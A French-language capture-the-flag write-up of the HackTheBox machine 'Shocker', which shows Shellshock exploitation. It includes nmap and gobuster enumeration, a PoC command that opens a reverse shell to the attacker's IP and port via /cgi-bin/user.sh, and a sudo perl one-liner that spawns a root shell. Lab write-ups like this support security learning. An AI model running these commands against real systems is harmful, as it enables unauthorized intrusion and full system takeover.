








Shocker, bien que relativement simple dans l'ensemble, démontre la gravité de la célèbre exploit Shellshock, qui a affecté des millions de serveurs exposés publiquement.

## Énumération
### Nmap

Il a 2 ports ouverts : `HTTP`, `SSH`.
```shell
nmap 10.129.178.143 -T4 --min-rate 1000 -sV -sC -vv -p-
```

```shell
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP - TCP 80
#### Énumération des répertoires

Je trouve des répertoires avec le code 403.
```
dirsearch -u http://10.129.178.143/cgi-bin/ -x 404,500 -t 100
```


#### CGI-BIN

Sur la page principale ne se trouve qu'une seule image. Le code source ne révèle rien d'intéressant non plus.



En me rendant sur le `/cgi-bin/`, je vois que je n'ai pas les permissions d'accès.



## Reverse shell en tant que shelly
### CVE-2014-6271

En faisant quelques recherches, sur google et en regardant l'indice laissé par HackTheBox, je vois que souvent dans le répertoire `/cgi-bin/` se trouvent des scripts soit python, perl, Bash, PHP, Ruby, CGI. Donc j'énumère les fichiers et je trouve le script `user.sh`.
```shell
gobuster dir -u http://10.129.178.143/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 404,500 -x pl,sh,cgi,rb,js,php
```




En m'y rendant, je vois que ce script exécute la commande `uptime` qui affiche depuis combien de temps le système fonctionne. 



Là, j'étais bloqué car je ne savait pas quoi faire de ce script. Je regarde l'indice laissé par HackTheBox et je vois qu'il existe un vulnérabilité sur les `cgi-bin` appelée `ShellShock`. Cet article sur [Medium](https://medium.com/@0xlucifer/understanding-shellshock-cve-2014-6271-a-critical-bash-vulnerability-e04040c7525f) l'explique très bien. 
Une petite recherche Google et je trouve un [POC](https://github.com/Jsmoreira02/CVE-2014-6271) permettant son exploitation.

```shell
python3 shellshock_exploit.py http://10.129.178.143/cgi-bin/user.sh 10.10.16.53 9001
```




Je récupère alors le flag user.



## Shell en tant que root
### Perl

Apres exécution de la commande `sudo -l` pour lister les privilèges `sudo` dont dispose l’utilisateur courant, je vois que je peux exécuter la commande `/usr/bin/perl` en tant que l'utilisateur `root` et sans fournir de mot de passe.
```shell
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

Je me rends alors sur [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo), et je vois la façon d'exploiter cela. Il me suffit d'exécuter la commande suivante pour obtenir un shell en tant que root.
```
sudo perl -e 'exec "/bin/sh";'
```


